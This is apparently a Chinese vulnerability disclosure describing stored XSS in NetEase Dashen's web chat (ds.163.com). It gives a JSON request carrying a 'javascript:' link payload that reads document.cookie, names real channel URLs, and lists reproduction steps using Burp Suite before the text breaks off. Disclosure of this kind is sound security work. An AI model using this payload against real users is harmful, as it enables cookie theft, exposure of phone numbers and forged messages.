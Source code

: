     { "serverId": "0149881871", "channelId": "1459515", "squareId": "60054a7dd5456877d226706e", "fromUid": "b1fbb501020c46ff88577a3fe103c0ec", "fromNick": "", "msgType": "CHAT_ROOM_MSG", "sourceType": "GOD_WEB", "content": { "attachType": "link", "attachData": { "title": "p", "url": "javascript://%0avar a=\"163.com\";alert(document.cookie);", "desc": "o", "icon": "https://baidu.com/p.png" } }, "contentType": "SHARE" }


## 漏洞描述
网易大神web版中，聊天频道分享帖子时，前后端没有对帖子的链接进行过滤，攻击者能够构造javascript链接，受害者通过点击链接触发XSS执行，攻击者能够窃取用户cookie（包含手机号码），伪造发消息等攻击。

### 详细说明
请按照逻辑对漏洞复现进行描述，提供危害说明和测试步骤。若使用工具复现漏洞，应提供工具详情
#### 漏洞触发
1. 登录大神Web平台 https://ds.163.com/
2. 进入频道，选择任意频道测试发消息，例如进入测试频道 https://ds.163.com/channel/0149881871/1459515/
发消息测试，并且通过burpsuite观察请求包结构

    ![sendmsg](/assets/images/sendmsg.png)

    可以从请求头header中看到，前端对请求体做了校验，攻击者直接修改请求体是不可行的